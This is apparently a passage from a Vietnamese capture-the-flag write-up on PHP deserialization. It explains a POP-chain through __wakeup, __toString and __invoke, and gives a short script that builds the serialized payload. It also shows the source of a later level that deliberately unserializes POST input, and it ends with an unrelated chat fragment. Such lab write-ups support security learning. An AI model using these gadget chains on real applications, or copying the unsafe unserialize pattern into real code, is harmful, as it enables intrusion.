 Flag được return khi trigger được `__invoke()` của class A

Về magic method `__invoke()`, method này được kích hoạt khi một class được đối xử như một function. Trong challenge này, dễ dàng nhìn thấy trong class B, method `__toString()` sẽ `return $f();` tức đang làm chính xác những gì mình cần

Như vậy flow của payload solve sẽ là:
- Unserialize và gọi `__wakeup` của class INIT, từ đó có một lệnh echo object => Trigger `__toString()` của object
- Trong `__toString()` của class B, ta set up giá trị `$f` là object A => return object A as a function sẽ gọi `__invoke()` => Solved
- À ngoài ra để có biến `$flag` để return, ta cần include file flag.php bằng cách set giá trị `$a = flag.php`

Solved script:

```php
$data1 = new A("");
$data1->a = "flag.php";
$data2 = new B("");
$data2->b = $data1;
$data3 = new INIT();
$data3->name = $data2;

echo serialize($data3);
```

![image]({{ "/assets/img/2025-07-25-PHPDeserChall/image9.png" | relative_url }})

#### Level 17

```php
class A {

}
echo "Class A is NULL: '".serialize(new A())."'<br>";

class B {
    public $a = "Hello";
    protected $b = "CTF";
    private $c = "FLAG{TEST}";
}
echo "Class B is a class with 3 properties: '".serialize(new B())."'<br>";

$serliseString = serialize(new B());

$serliseString = str_replace('B', 'A', $serliseString);

echo "After replace B with A,we unserialize it and dump :<br>";
var_dump(unserialize($serliseString));

if(isset($_POST['o'])) {
    $a = unserialize($_POST['o']);
    var_dump($a);
    if ($a instanceof A && $a->helloctfcmd == "get_flag") {
        include 'flag.php';
        echo $flag;
    } else {
        echo "what's rule?";
    }
} else {
    highlight_file(__FILE__);
}
```


[YOU]: HelloBooooooy
[FRIEND]: Hm.. you don't see to be the friend I was waiting for..
[FRIEND]: Oh ! Hi! Let me show you my secret: 